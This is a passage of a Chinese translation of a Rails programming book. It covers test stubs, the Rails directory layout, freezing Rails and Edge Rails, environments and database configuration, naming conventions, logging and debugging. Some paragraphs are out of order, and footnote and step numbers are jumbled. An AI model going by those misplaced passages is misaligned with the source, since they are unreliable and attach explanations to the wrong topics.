注意，存根文件实际上加载了原始的 `PaymentGateway` 类（使用 `require`）。然后它重新打开 `PaymentGateway` 类并只覆盖 `collect` 方法。这意味着我们不必存根 `PaymentGateway` 的所有方法，只需存根那些我们想在测试运行时重新定义的方法。在这种情况下，新的 `collect` 方法只是返回一个假的响应。

有了这个文件，`StoreController` 将使用存根的 `PaymentGateway` 类。这是因为 Rails 安排搜索路径首先包含模拟路径——文件 `test/mocks/test/payment_gateway.rb` 被加载而不是 `lib/payment_gateway.rb`。

这就是全部了。通过使用存根，我们可以简化测试并专注于测试最重要的内容。而 Rails 让这一切变得毫不费力。

#### 存根与模拟

你可能已经注意到，上一节使用了 *存根* 这个术语来指代这些假的类和方法，但 Rails 将它们放在了 `test/mocks` 的子目录中。Rails 在术语上有点随意。它所说的模拟实际上只是存根：伪造的代码块，消除了对某些资源的需求。

然而，如果你真的想要模拟对象——那些测试自身如何被使用并在使用不当时产生错误的对象——那么 Rails 有解决方案。从 1.2 版开始，Rails 包含了 Flex Mock，⁶ 这是 Jim Weirich 用于模拟对象的 Ruby 库。你可以在任何测试中使用它，但你需要显式地引入它。

```ruby
require "flexmock"
```

#### 我们刚刚做了什么

我们为 Depot 应用程序编写了一些测试，但并没有测试所有内容。然而，凭借我们现在所知的知识，我们 *可以* 测试所有内容。事实上，Rails 提供了出色的支持来帮助你编写好的测试。尽早且频繁地测试——你会在 bug 有机会逃跑和躲藏之前就抓住它们，你的设计会得到改进，而你的 Rails 应用程序也会为此感谢你。

6. http://onestepback.org/software/flexmock/

# 第三部分

## Rails 框架

# 第 14 章

## 深入 Rails

在经历了我们的 Depot 项目之后，现在似乎是深入了解 Rails 的好时机。在本书的剩余部分，我们将逐个主题地探讨 Rails（这基本上意味着逐个模块地探讨）。

本章为后续内容奠定基础。它讲述了理解其余部分所需知道的所有高级内容：目录结构、配置、环境、支持类和调试提示。但首先，我们必须问一个重要的问题……

### 14.1 那么，Rails 在哪里？

Rails 有趣的一个方面是其组件化程度。从开发者的角度来看，你所有的时间都花在处理像 Active Record 和 Action View 这样的高级模块上。有一个叫做 Rails 的组件，但它位于其他组件之下，默默地协调它们的工作，使它们无缝地协同工作。没有 Rails 组件，什么都不会发生。但与此同时，这底层基础设施只有一小部分与开发者的日常工作相关。我们将在本章的剩余部分介绍相关部分。

### 14.2 目录结构

Rails 假设了一个特定的运行时目录布局。下页图 14.1 显示了如果你运行命令 `rails my_app` 所创建的顶级目录。让我们看看每个目录包含什么内容（虽然不一定按顺序）。`config` 和 `db` 目录需要多一点讨论，所以它们各自有一个独立的部分。

顶级目录还包含一个 Rakefile。你可以用它来运行测试、创建文档、提取当前模式结构等等。在提示符下输入 `rake --tasks` 可获取完整列表。

#### 目录结构

my_app/

- **README**: 安装和使用信息。
- **Rakefile**: 构建脚本。
- **app/**: 模型、视图和控制器文件放在这里。
- **components/**: 可重用组件。
- **config/**: 配置和数据库连接参数。
- **db/**: 模式和迁移信息。
- **doc/**: 自动生成的文档。
- **lib/**: 共享代码。
- **log/**: 应用程序生成的日志文件。
- **public/**: Web 可访问目录。你的应用程序从这里运行。
- **script/**: 实用脚本。
- **test/**: 单元、功能和集成测试，夹具和模拟。
- **tmp/**: 运行时临时文件。
- **vendor/**: 导入的代码。

图 14.1: `rails my_app` 命令的结果

##### **app/ 和 test/**

我们的大部分工作在 `app` 和 `test` 目录中进行。应用程序的主要代码位于 `app` 目录下，如下页图 14.2 所示。当我们稍后在本书中更详细地探讨 Active Record、Action Controller 和 Action View 时，我们将进一步讨论 `app` 目录的结构，而我们已经在第 13 章《任务 T：测试》（第 185 页）中讨论过 `test` 目录。

##### **components/**

在 Rails 辉煌的过去，`components` 目录本应包含可重用的视图代码和控制器代码块。它们有点像 Java 的 *门户组件*。然而，Rails 核心团队现在认为这种开发方式存在一些主要的设计缺陷，并正在逐步弃用组件。我们在这里不再讨论它们。




图 14.2：应用目录结构

##### doc/

`doc` 目录用于存放应用程序文档。它通过 RDoc 生成。如果你运行 `rake doc:app`，最终会在 `doc/app` 目录下得到 HTML 文档。你可以通过编辑 `doc/README_FOR_APP` 文件来为此文档创建一个特殊的首页。第 183 页的图 12.3 展示了我们的商店应用的顶级文档。

##### lib/

`lib` 目录存放不适合归入模型、视图或控制器的应用代码。例如，你可能编写了一个库，用于生成你的商店客户可以下载的 PDF 收据。1 这些收据直接从控制器发送到浏览器（使用 `send_data` 方法）。创建这些 PDF 收据的代码自然适合放在 `lib` 目录中。

`lib` 目录也是存放模型、视图或控制器之间共享代码的好地方。也许你需要一个库来验证信用卡号的校验和，执行某些财务计算，或者计算复活节的日期。任何不是直接属于模型、视图或控制器的东西都应该归入 `lib`。

1. 我们在新的 Pragmatic Programmer 商店中就是这样做的

不要觉得你必须将一堆文件直接放在 `lib` 目录本身。大多数经验丰富的 Rails 开发者会在 `lib` 下创建子目录，将相关功能分组。例如，在 Pragmatic Programmer 商店中，生成收据、运输海关文件和其他 PDF 格式文档的代码都位于 `lib/pdf_stuff` 目录中。

一旦你将文件放入 `lib` 目录，就可以在应用程序的其余部分使用它们。如果文件包含类或模块，并且文件使用类或模块名称的小写形式命名，那么 Rails 将自动加载该文件。例如，我们可能在 `lib/pdf_stuff` 目录的 `receipt.rb` 文件中有一个 PDF 收据写入器。只要我们的类名为 `PdfStuff::Receipt`，Rails 就能够找到并自动加载它。

对于那些无法满足这些自动加载条件的库，你可以使用 Ruby 的 `require` 机制。如果文件在 `lib` 目录本身，你可以直接按名称 require 它。例如，如果我们的复活节计算库在 `lib/easter.rb` 文件中，我们可以在任何模型、视图或控制器中使用以下代码来包含它：

```ruby
require "easter"
```

如果库位于 `lib` 的子目录中，请记住在 `require` 语句中包含该目录的名称。例如，要包含航空邮件的运输计算，我们可能会添加以下代码：

```ruby
require "shipping/airmail"
```

##### Rake 任务

你还会在 `lib` 下找到一个空的 `tasks` 目录。这是你可以编写自己的 Rake 任务的地方，允许你为项目添加自动化功能。这不是一本关于 Rake 的书，所以我们不会深入探讨，但这里有一个简单的例子。我们将编写一个 Rake 任务，打印我们开发模式的当前版本。这些任务是 Ruby 代码，但需要放在扩展名为 `.rake` 的文件中。我们将我们的任务命名为 `db_schema_version.rake`。

```ruby
namespace :db do
  desc "Prints the migration version"
  task :schema_version => :environment do
    puts ActiveRecord::Base.connection.select_value('select version from schema_info')
  end
end
```

我们可以像运行任何其他 Rake 任务一样从命令行运行它。

```
depot> rake db:schema_version
(in /Users/dave/Work/...)
7
```

有关编写 Rake 任务的更多信息，请查阅 Rake 文档：[http://docs.rubyrake.org/](http://docs.rubyrake.org/)。

##### log/

Rails 运行时会产生大量有用的日志信息。这些信息默认存储在 `log` 目录中。你会在这里找到三个主要的日志文件，分别为 `development.log`、`test.log` 和 `production.log`。日志不仅包含简单的跟踪行；它们还包含时间统计、缓存信息以及所执行数据库语句的展开形式。

使用哪个文件取决于你的应用程序运行的环境（我们将在讨论 `config` 目录时更详细地介绍环境）。

##### public/

`public` 目录是你应用程序的对外界面。Web 服务器将此目录作为应用程序的基础。大部分部署配置都在这里进行，因此我们将推迟到第 27 章“部署与生产”（第 614 页）再讨论它。

##### script/

`script` 目录存放对开发者有用的程序。大多数脚本在没有参数的情况下运行时，会显示用法信息。

-   **about**：显示你的应用程序使用的 Ruby 和 Rails 组件的版本号，以及其他配置信息。
-   **breakpointer**：一个允许你与正在运行的 Rails 应用程序交互的客户端。我们从第 246 页开始讨论这个。
-   **console**：允许你使用 `irb` 与你的 Rails 应用程序方法进行交互。
-   **destroy**：删除由 `generate` 创建的自动生成文件。
-   **generate**：一个代码生成器。开箱即用，它将创建控制器、邮件程序、模型、脚手架和 Web 服务。你也可以从 Rails 网站下载额外的生成器模块。

> 2. [http://wiki.rubyonrails.com/rails/show/AvailableGenerators](http://wiki.rubyonrails.com/rails/show/AvailableGenerators)

**plugin**

`plugin` 脚本帮助你安装和管理插件——扩展 Rails 功能的功能模块。

**runner**

在 Web 上下文之外执行你的应用程序中的一个方法。你可以使用它从 cron 作业调用缓存过期方法或处理传入的电子邮件。

**server**

`server` 脚本在独立的 Web 服务器中运行你的 Rails 应用程序，使用 mongrel、LightTPD（如果你的系统上有任一），或 WEBrick。我们在开发期间的 Depot 应用程序中一直使用这个。

`script` 目录包含两个子目录，每个都存放更专门的脚本。`script/process` 目录包含两个帮助控制已部署 Rails 应用程序的脚本：我们将在关于部署的章节中讨论它们。`script/performance` 目录包含两个帮助你了解应用程序性能特征的脚本。

**benchmarker**

生成你的应用程序中一个或多个方法的性能数据。

**profiler**

创建一段来自你应用程序的代码的运行时概要分析摘要。

##### tmp/

Rails 将其临时文件存放在 `tmp` 目录中，这或许并不令人意外。你会发现这里有用于缓存内容、会话和套接字的子目录。

##### vendor/

`vendor` 目录是第三方代码的存放地。如今，这些代码通常来自两个来源。

首先，Rails 将插件安装到 `vendor/plugins` 下的目录中。插件是在开发和运行时扩展 Rails 功能的方式。

其次，你可以要求 Rails 将自身安装到 `vendor` 目录中。但为什么你想这样做呢？

通常，你会使用系统全局安装的 Rails 代码来开发你的应用程序。构成 Rails 的各个库将作为 gem 安装在你的 Ruby 安装中，你所有的 Rails 应用程序都会共享它们。

然而，随着你接近部署，你可能需要考虑 Rails 变更对你应用程序的影响。虽然你的代码现在运行良好，但如果六个月后核心团队对 Rails 进行了与你的应用程序不兼容的更改，会发生什么？如果你天真地在生产服务器上升级 Rails，你的应用程序将突然停止工作。或者，也许你的开发机上有多个应用程序，它们是在几个月或几年内一个接一个开发的。早期的可能只与早期版本的 Rails 兼容，而后期的可能需要仅在较新 Rails 版本中才能找到的功能。

这些问题的解决方案是将你的应用程序绑定到特定版本的 Rails。一种方法（在本页的侧边栏中描述）假设你需要的所有 Rails 版本都作为 gem 全局安装——它只是告诉你的应用程序加载正确版本的 Rails。然而，许多开发者认为更安全的方法是走第二条路，将 Rails 代码直接冻结到他们应用程序的目录树中。通过这样做，Rails 库与相应的应用程序代码一起保存到版本控制系统中，保证始终可以使用正确版本的 Rails。

这样做并不麻烦。如果你想将你的应用程序锁定到当前作为 gem 安装的 Rails 版本，只需输入命令

```
depot> rake rails:freeze:gems
```

在后台，此命令将最新的 Rails 库复制到 `vendor/rails` 目录下的目录树中。当 Rails 启动运行一个应用程序时，它总是先在该目录中查找自身的库，然后再查找其他地方。

> 将你的应用程序绑定到 gem 版本
>
> 你可以通过在 `config` 目录中的 `environment.rb` 顶部添加如下行来告诉 Rails 使用特定版本：
>
> `RAILS_GEM_VERSION = "1.2"`
>
> 当你的应用程序启动时，Rails 将查询系统上安装的 gem 并安排加载正确的一个（本例中为 1.2）。
>
> 尽管这种方法简单且吸引人，但它有一个主要缺点：如果你部署到一个不包含指定版本 Rails 的服务器上，你的应用程序将无法运行。为了更健壮的部署，你最好将 Rails 冻结到你的 `vendor` 目录中。


#### 使用 Edge Rails

除了可以将当前 Rails 的 gem 版本冻结到你的应用程序中，你也可以将你的应用程序链接到 Rails 官方 Subversion 仓库（Rails 核心开发者提交代码的地方）中的某个版本。这被称为 *Edge Rails*。这里你有几个选择。两种方式都要求你在本地机器上安装 Subversion 客户端。第一种方式还额外要求你自己的项目存储在 Subversion 仓库中。

##### 将你的项目链接到 Rails 仓库

将你的代码链接到 Rails 开发代码的一种方式是使用 Subversion 的 *externals* 功能。我们将直接把 `vendor` 下的 `rails` 子目录链接到*他们*仓库中 Rails 开发代码的头部。在项目的顶层目录中，输入以下命令（所有内容在一行，不要带反斜杠）

```
depot> svn propset svn:externals \
        "rails http://dev.rubyonrails.org/svn/rails/trunk" vendor
```

这告诉 Subversion，`vendor/rails` 目录存储在一个远程仓库中。³ 然后输入

```
depot> svn up vendor
```

你将看到 Rails 被安装到你的应用程序中。从现在起，每次你运行 `svn up`，你都会更新你的应用程序代码，并且也会获取 Rails 的任何更改。这就是在 Edge 上的生活。

你也可以通过链接到 Rails 最新的稳定版本来过得稍微不那么刺激一些。在这种情况下，将你的 `svn:externals` 属性设置为

[http://dev.rubyonrails.org/svn/rails/branches/stable/](http://dev.rubyonrails.org/svn/rails/branches/stable/)

##### 冻结一个 Edge 版本的 Rails

上述技术在你的应用程序和 Rails 库的最前沿之间建立了一个实时连接。另一种选择是从开发仓库中获取一个版本的 Rails 并将其冻结到你的应用程序目录树中，就像我们可以从 gem 中冻结 Rails 版本一样。为此，我们使用以下三种 Rake 任务中的一种。

```
depot> rake rails:freeze:edge
depot> rake rails:freeze:edge TAG=rel_1-1-0
depot> rake rails:freeze:edge REVISION=<some number>
```

这些 Rake 任务获取一个版本的 Rails（当前版本、一个特定标签，或一个特定的 Subversion 修订号）并将其冻结到你的 vendor 目录中。这比让你的项目在核心团队每天进行更改时动态更新风险更小，但作为交换，如果你需要获取一些最新的功能，你需要解冻并重新冻结。

##### 什么时候运行在 Edge 上是个好主意？

运行在 Edge 上意味着一旦新特性从代码中提取出来，你就能立即获得所有最新的改进和技术。这通常包括技术现状的重大转变。RJS 在 Rails 边缘版本上可用数月后，才在 Rails 1.1 中首次亮相。对 RESTful 接口的最新推动同样在 1.2 版本发布前数月就已可用。

所以，运行在 Edge 上有非常实际的好处。也有其弊端。当 Rails 基础发生重大结构性变化时，通常需要一段时间所有余波才会消失。因此，在运行 Edge 时，你可能会遇到错误或性能下降。这就是你在决定是否使用 Edge 时需要权衡的取舍。

我建议你在学习 Rails 时先不要使用 Edge。先完成几个应用程序。学会应对莫名错误的恐慌。然后，当你准备好更进一步时，就跳转过去，在 Edge 上开始你的下一个主要开发项目。关注 Trac Timeline，† 订阅 rails-core 邮件列表，† 并参与其中。

用一些安全性换取创新。即使某个特定的修订版有问题，你总是可以冻结在它之前的一个修订版。或者，你可以追求更大的社区回报，帮助修复出现的问题，从而完成从用户到贡献者的转变。

*   http://dev.rubyonrails.org/timeline
†   http://groups.google.com/group/rubyonrails-core

> ³ 如果你看到一个错误，说“vendor is not a working copy”，这意味着你的应用程序代码没有存储在 Subversion 下。你可能想使用第二种方法，即冻结一个 edge 版本的 Rails，来代替。

### 14.3 Rails 配置

Rails 运行时配置由 `config` 目录中的文件控制。这些文件与*运行时环境*的概念协同工作。

#### 运行时环境

开发人员在编写代码、测试代码和在生产环境中运行代码时的需求是截然不同的。编写代码时，你需要大量的日志记录、方便地重新加载更改的源文件、即时的错误通知等等。在测试时，你需要一个孤立存在的系统，以便获得可重复的结果。在生产环境中，你的系统应该针对性能进行调优，并且用户应该远离错误。

为了支持这一点，Rails 引入了运行时环境的概念。每个环境都有一套自己的配置参数；在不同的环境中运行相同的应用程序，该应用程序会改变其行为。

控制运行时环境的开关在你的应用程序之外。这意味着当你从开发环境切换到测试环境再到生产环境时，不需要更改任何应用程序代码。指定运行时环境的方式取决于你如何运行应用程序。如果你使用 WEBrick 和 `script/server`，你使用 `-e` 选项。

```
depot> ruby script/server -e development   # 如果省略 -e，则为默认值
depot> ruby script/server -e test
depot> ruby script/server -e production
```

如果你使用 `script/server` 并运行 LightTPD，你可以在 config 目录中的 `lighttpd.conf` 文件中编辑默认环境（但你必须先至少运行一次 `script/server`，才能为你创建该配置文件）。

```
# . . .
fastcgi.server        = ( ".fcgi" => ( "localhost" => (
  "min-procs"           => 1,
  "max-procs"           => 1,
  "socket"              => CWD + "/tmp/sockets/fcgi.socket",
  "bin-path"            => CWD + "/public/dispatch.fcgi",
  "bin-environment"     => ( "RAILS_ENV" => "development" )
) ))
$ . . .
```

如果你使用 Apache 和 Mongrel，在配置你的 Mongrel 集群时，使用 `-e production` 参数。这在第 623 页有描述。

如果你有特殊需求，你可以创建自己的环境。你需要向数据库配置文件添加一个新的部分，并在 `config/environments` 目录中添加一个新文件。接下来将对此进行描述。

##### 配置数据库连接

`config/database.yml` 文件用于配置你的数据库连接。你会发现它包含三个部分，每个运行时环境一个。下面是一个部分的样子。

```
development:
    adapter:    mysql
    database:   depot_development
    username:   root
    password:
    host:       localhost
```

每个部分必须以环境名称开头，后跟一个冒号。该部分的内容行应紧跟其后。每行都应缩进，包含一个键，后跟一个冒号和相应的值。每个部分至少需要指定数据库适配器（MySQL、Postgres 等）和要使用的数据库。适配器有其自己对附加参数的特定要求。这些参数的完整列表在第 **291** 页的第 *17.4 节 连接到数据库* 中给出。

如果你需要在不同的数据库服务器上运行你的应用程序，你有几个配置选项。如果只是数据库连接不同，你可以在 `database.yml` 中创建多个部分，每个部分以环境和数据库命名。然后你可以使用 YAML 的别名功能来选择特定的数据库。

```
# 将以下行更改为指向正确的数据库
development: development_sqlite

development_mysql:
    adapter:    mysql
    database:   depot_development
    host:       localhost
    username:   root
    password:

development_sqlite:
    adapter:    sqlite
    dbfile:     my_db
```

如果更改到不同的数据库也会更改应用程序配置中的其他参数，你可以创建多个环境（例如命名为 development-mysql、development-postgres 等），并在 `database.yml` 文件中创建相应的部分。你还需要在 `environments` 目录下添加相应的文件。

正如我们将在第 **291** 页看到的，在手动进行连接时，你也可以引用 `database.yml` 中的部分。

---

查找系统级版本，因此，冻结后，你的应用程序就绑定到该版本的 Rails。请注意，冻结 gem 只会将 Rails 框架复制到你的应用程序中：其他 Ruby 库仍然是全局访问的。

如果你想回到使用系统级版本的 Rails，你可以删除 `vendor/rails` 目录或运行命令

```
depot> rake rails:unfreeze
```


#### 环境

应用程序的运行时配置由两个文件执行。一个是 `config/environment.rb`，它是环境无关的——无论 `RAILS_ENV` 的设置如何都会使用。第二个文件则取决于环境：Rails 会在 `config/environments` 目录中查找以当前环境命名的文件，并在处理 `environment.rb` 时加载它。默认情况下包含标准的三个环境（`development.rb`、`production.rb` 和 `test.rb`）。如果你定义了新的环境类型，可以添加自己的文件。

环境文件通常做三件事。

-   它们设置 Ruby 的加载路径。这就是你的应用程序在运行时能够找到诸如模型和视图等组件的方式。
-   它们创建你的应用程序使用的资源（例如日志记录器）。
-   它们为 Rails 和你的应用程序设置各种配置选项。

前两件事通常是应用程序范围内的，因此在 `environment.rb` 中完成。配置选项通常因环境而异，因此很可能在 `environments` 目录中的特定环境文件中设置。

#### 加载路径

标准环境会自动将以下目录（相对于你的应用程序基础目录）包含到你的应用程序加载路径中。

-   `test/mocks/environment`。因为这些目录在加载路径中排在前面，所以这里定义的类会覆盖真实版本，使你能够在测试期间用存根代码替换实时功能。这将在第225页开始描述。
-   `app/controllers` 目录及其子目录。
-   `app/models` 和 `components` 下所有以下划线或小写字母开头的目录。
-   `app`、`app/models`、`app/controllers`、`app/helpers`、`app/services`、`app/apis`、`components`、`config`、`lib` 和 `vendor` 目录。

只有当这些目录存在时，它们才会被添加到加载路径中。

此外，Rails 会检查你的应用程序中是否存在 `vendor/rails` 目录。如果存在，它会安排从那里加载自身，而不是从共享库代码中加载。

#### 配置参数

你可以通过在 Rails 模块中设置各种选项来配置 Rails。通常，你会在 `environment.rb` 的末尾（如果你想让设置在所有环境中生效）或在 `environments` 目录中的一个特定环境文件中进行这些设置。

我们在附录B（第645页）中提供了所有这些配置参数的列表。

### 14.4 命名约定

Rails 的新手有时会对它自动处理事物命名的方式感到困惑。他们惊讶地发现自己调用一个名为 `Person` 的模型类，而 Rails 却不知怎么知道要寻找一个名为 `people` 的数据库表。本节旨在解释这种隐式命名的工作原理。

这里的规则是 Rails 使用的默认约定。你可以使用适当的声明在你的 Rails 类中覆盖所有这些约定。

#### 混合大小写、下划线和复数形式

我们经常使用短语来命名变量和类。在 Ruby 中，惯例是变量名全部小写，单词之间用下划线分隔。类和模块的命名方式则不同：没有下划线，并且短语中的每个单词（包括第一个）都大写。（我们称这个为*混合大小写*，原因相当明显。）这些约定导致了像 `order_status` 这样的变量名和像 `LineItem` 这样的类名。

Rails 采用了这个约定并从两个方面进行了扩展。首先，它假设数据库表名与变量名一样，使用小写字母并且在单词之间使用下划线。Rails 还假设表名总是复数形式。这就产生了像 `orders` 和 `third_parties` 这样的表名。

在另一方面，Rails 假设文件名使用小写字母和下划线。

Rails 利用这些命名约定知识来自动转换名称。例如，你的应用程序可能包含一个处理行项目的模型类。你会使用 Ruby 的命名约定来定义这个类，称它为 `LineItem`。从这个名称，Rails 会自动推断出以下内容。

-   相应的数据库表将被命名为 `line_items`。这是类名转换为小写，在单词之间加上下划线，并使用复数形式。
-   Rails 还会知道在 `app/models` 目录下名为 `line_item.rb` 的文件中寻找类定义。

#### 命名约定总结

| **模型命名** | |
| :--- | :--- |
| 表 | `line_items` |
| 文件 | `app/models/line_item.rb` |
| 类 | `LineItem` |

| **控制器命名** | |
| :--- | :--- |
| URL | `http://…/store/list` |
| 文件 | `app/controllers/store_controller.rb` |
| 类 | `StoreController` |
| 方法 | `list` |
| 布局 | `app/views/layouts/store.rhtml` |

| **视图命名** | |
| :--- | :--- |
| URL | `http://…/store/list` |
| 文件 | `app/views/store/list.rhtml`（或 `.rxml`、`.rjs`） |
| 辅助模块 | `module StoreHelper` |
| 文件 | `app/helpers/store_helper.rb` |

Rails 控制器有额外的命名约定。如果我们的应用程序有一个 store 控制器，那么会发生以下情况。

-   Rails 假设该类名为 `StoreController`，并且位于 `app/controllers` 目录下名为 `store_controller.rb` 的文件中。
-   它还假设在 `app/helpers` 目录下的 `store_helper.rb` 文件中存在一个名为 `StoreHelper` 的辅助模块。
-   它将在 `app/views/store` 目录中查找此控制器的视图模板。
-   它默认会获取这些视图的输出，并将其包装在 `app/views/layouts` 目录下 `store.rhtml` 或 `store.rxml` 文件中的布局模板里。

所有这些约定都如图14.3所示。

> **大卫说……**
>
> **为什么表要用复数形式？**
>
> 因为这样听起来顺口。真的。“从 products 中选择一个 Product。”就像“Order has_many :line_items.”
>
> 其目的是通过创建一种可以被编程和对话共享的领域语言来弥合编程与对话之间的鸿沟。拥有这样的语言意味着减少心智上的转译，否则当讨论一个*产品描述*时，而实际上它被实现为*商品主体*，会造成混淆。这些沟通上的鸿沟必然会导致错误。
>
> 如果你遵循标准约定，Rails 会免费为你提供大部分配置，从而让你受益。因此，开发者因为做了正确的事情而得到奖励，所以这与其说是放弃“你的方式”，不如说是免费获得生产力。
>
> 还有一个额外的转折。在普通的 Ruby 代码中，你必须在引用文件中的类和模块之前使用 `require` 关键字来包含 Ruby 源文件。因为 Rails 知道文件名和类名之间的关系，所以在 Rails 应用程序中通常不需要 `require`。相反，当你第一次引用一个未知的类或模块时，Rails 会使用命名约定将类名转换为文件名，并在后台尝试加载该文件。最终的效果是，你通常可以引用（比如）一个模型类的名称，并且该模型会自动加载到你的应用程序中。
>
> 我们说过 `require` 通常不需要。对于 Rails 没有显式管理的 Ruby 源代码，你将需要使用它来加载。特别是，如果你在 `lib` 目录或其子目录中有代码，你将需要使用 `require` 来加载它。

```ruby
require "my_library"
require "pdf/invoice_writer"
```

#### 将控制器分组到模块中

到目前为止，我们所有的控制器都位于 `app/controllers` 目录中。有时为了更结构化地安排会比较方便。例如，我们的商店最终可能会有许多执行相关但独立管理功能的控制器。为了避免污染顶级命名空间，我们可能会选择将它们分组到一个 `admin` 命名空间中。


### 14.5 Rails 中的日志记录

Rails 框架内置了日志功能。或者更准确地说，Rails 向 Rails 应用程序中的所有代码暴露了一个 Logger 对象。

Rails 通过一个简单的命名约定来实现这一点。如果一个传入请求的控制器名称为（例如）`admin/book`，Rails 会在 `app/controllers/admin` 目录中寻找名为 `book_controller` 的控制器。也就是说，控制器名称的最后一部分总是解析为一个名为 `name_controller.rb` 的文件，而任何前面的路径信息都将用于从 `app/controllers` 目录开始导航子目录。

假设我们的程序有两组这样的控制器（例如 `admin/xxx` 和 `content/xxx`），并且这两组都定义了一个 book 控制器。那么在 `app/controllers` 的 `admin` 和 `content` 子目录中都会有一个名为 `book_controller.rb` 的文件。这两个控制器文件都会定义一个名为 BookController 的类。如果 Rails 不采取进一步措施，这两个类将会冲突。

为了解决这个问题，Rails 假设 `app/controllers` 目录子目录中的控制器位于以子目录命名的 Ruby 模块中。因此，`admin` 子目录中的 book 控制器将声明为

```ruby
class Admin::BookController < ApplicationController
  # ...
end
```

`content` 子目录中的 book 控制器则位于 Content 模块中。

```ruby
class Content::BookController < ApplicationController
  # ...
end
```

这样，两个控制器在应用程序内部就得以分离。这些控制器的模板出现在 `app/views` 的子目录中。因此，对于请求

http://my.app/admin/book/edit/1234

对应的视图模板将在文件

app/views/admin/book/edit.rhtml

中。

你会高兴地了解到，控制器生成器理解模块中控制器的概念，并允许你使用如下命令创建它们：

```bash
myapp> ruby script/generate controller Admin::Book action1 action2 ...
```

这种控制器命名模式在我们开始生成链接动作的 URL 时会产生影响。我们将在第 408 页开始讨论这一点。

Logger 是一个简单的日志记录框架，随最近的 Ruby 版本一起提供。（你可以通过在命令提示符下输入 `ri Logger` 或查阅 *Programming Ruby* [TFH05] 中的标准库文档来获取更多信息。）就我们的目的而言，只需知道我们可以在警告、信息、错误和致命级别生成日志消息就足够了。然后我们可以决定（可能是在环境文件中）哪些级别的日志记录要写入日志文件。

```ruby
logger.warn("I don't think that's a good idea")
logger.info("Dave's trying to do something bad")
logger.error("Now he's gone and broken it")
logger.fatal("I give up")
```

在 Rails 应用程序中，这些消息被写入 `log` 目录中的一个文件。使用的文件取决于应用程序运行的环境。开发环境的应用程序将记录到 `log/development.log`，测试环境的应用程序记录到 `test.log`，生产环境的应用程序则记录到 `production.log`。

### 14.6 调试提示

Bug 总会发生。即使在 Rails 应用程序中也是如此。本节提供一些追踪 Bug 的提示。

首先也是最重要的是，编写测试！Rails 使得编写单元测试和功能测试变得很容易（正如我们在第 13 章“任务 T：测试”第 185 页所看到的）。使用它们，你会发现你的 Bug 率会大幅下降。你也会降低一个月前编写的代码中突然出现 Bug 的可能性。测试是廉价的保险。

测试告诉你某些东西是否有效，并帮助你隔离有问题的代码。然而，有时原因并不明显。

如果问题出在模型中，你可能可以通过在 Web 应用程序上下文之外运行有问题的类来追踪它。`script/console` 脚本让你可以在 `irb` 会话中启动 Rails 应用程序的一部分，从而可以试验方法。这里是一个使用控制台更新产品价格的会话。

```ruby
depot> ruby script/console
Loading development environment.
irb(main):001:0> pr = Product.find(:first)
=> #<Product:0x248acd0 @attributes={"image_url"=>"/old_images/sk..."
irb(main):002:0> pr.price
=> 29.95
irb(main):003:0> pr.price = 34.95
=> 34.95
irb(main):004:0> pr.save
=> true
```

日志记录和跟踪是理解复杂应用程序动态的好方法。你将在开发日志文件中找到丰富的信息。当发生意外情况时，这应该是你首先查看的地方。同样值得检查 Web 服务器日志中的异常情况。如果你在开发环境中使用 WEBrick，它将在你用来执行 `script/server` 命令的控制台上滚动显示。

你可以使用上一节描述的 Logger 对象向日志添加自己的消息。有时日志文件太繁忙，很难找到你添加的消息。在这些情况下，如果你使用 WEBrick，写入 STDERR 会导致你的消息出现在 WEBrick 控制台上，与正常的 WEBrick 跟踪信息混合在一起。

如果页面显示的信息不正确，你可能需要转储从控制器传入的对象。`debug` 辅助方法对此很有用。它能很好地格式化对象，并确保它们的内容是有效的 HTML。

```erb
<h3>Your Order</h3>
<%= debug(@order) %>
<div id="ordersummary">
...
</div>
```

最后，对于那些似乎就是无法解决的问题，你可以动用大杀器，将 `irb` 指向你正在运行的应用程序。这通常只能用于开发环境中的应用程序。

使用断点：

1.  在你的代码中你希望应用程序首次停止的位置插入对 `breakpoint` 方法的调用。你可以传递一个字符串给这个方法——这将成为后续的标识消息。
2.  在一个方便的控制台中，导航到你的应用程序基础目录，并输入命令⁴

```bash
depot> ruby script/breakpointer
No connection to breakpoint service at
druby://localhost:42531 (DRb::DRbConnError)
Tries to connect will be made every 2 seconds…
```

不要担心“无连接”消息——它只是意味着你的断点还没有被触发。

4.  在 OS X 下，你需要一个额外的选项，否则你可能要等大约一分钟才能让 breakpointer 启动：
`depot> ruby script/breakpointer -c druby://127.0.0.1:42531`

3.  使用浏览器，触发你的应用程序使其命中 `breakpoint` 方法。当它命中时，运行 `breakpointer` 的控制台将会活跃起来——你将处于一个 `irb` 会话中，与你的运行中的 Web 应用程序对话。你可以检查变量、设置值、添加其他断点，并且通常可以玩得很开心。当你退出 `irb` 时，你的应用程序将继续运行。

如果你此时期望一个完整的调试器——嗯，很抱歉。在撰写本文时，`breakpointer` 所能做的只是在命中断点时检查和更改程序状态。

默认情况下，`breakpointer` 使用本地网络连接在你的应用程序和 `breakpointer` 客户端之间通信。你可能可以在运行 `breakpointer` 时使用 `-s` 选项连接到另一台机器上的应用程序，但你需要确保没有防火墙阻碍。

### 14.7 接下来是什么

下一章将探讨你在编写 Rails 应用程序时拥有的所有编程支持。随后是对 Migrations 的深入探讨。

如果你正在寻找有关 Active Record（Rails 的对象关系映射层）的信息，你需要阅读第 17 到 19 章。第一部分涵盖基础知识，第二部分探讨表间关系，第三部分涉及一些更晦涩的内容。这些是较长的章节——Active Record 是 Rails 最大的组件。

接下来是两章关于 Action Controller 的内容，它是 Rails 应用程序的大脑。这是处理请求和业务逻辑所在的地方。之后，第 22 章 Action View 描述了如何从应用程序级数据转换到浏览器页面。

但是等等（就像他们说的），还有更多！新风格的基于 Web 的应用程序利用 JavaScript 和 XMLHttpRequest 提供更互动的用户体验。第 23 章“Web，2.0 版”告诉你如何让你的应用程序更有趣。

Rails 不仅可以与浏览器交谈。第 24 章 Action Mailer 向你展示如何在 Rails 应用程序中发送和接收电子邮件，第 25 章“Rails 上的 Web 服务”（第 584 页）描述了你如何让其他人通过 SOAP 和 XML-RPC 以编程方式访问你的应用程序。

